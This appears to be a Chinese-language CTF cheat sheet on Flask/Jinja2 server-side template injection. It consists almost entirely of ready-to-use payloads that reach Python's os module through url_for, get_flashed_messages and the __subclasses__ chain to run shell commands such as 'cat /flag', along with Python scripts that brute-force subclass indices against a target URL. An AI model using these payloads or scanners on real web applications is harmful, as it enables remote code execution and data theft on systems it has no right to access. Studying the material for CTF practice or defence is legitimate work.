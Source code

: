 #### 通过url_for,调用os

```php
{{url_for.__globals__.os.popen('cat /flag').read()}}
```

#### 通过get_flashed_messages

返回之前在Flask中通过 flash() 传入的闪现信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出(闪现信息只能取出一次，取出后闪现信息会被清空)。

```php
{{get_flashed_messages.__globals__.os.popen('cat /flag').read()}}
```

#### 在已经加载os模块的子类中直接调用os模块

```php
{{"".__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['os'].popen('cat /flag').read()}}
```

查找os模块脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'os.py' in str(response.content):
                print(i)
    except:
        pass
```

#### 可以加载第三方库，使用load_module加载os

_frozen_importlib.BuiltinImporter查找脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'_frozen_importlib.BuiltinImporter' in str(response.content):
                print(i)
    except:
        pass



```
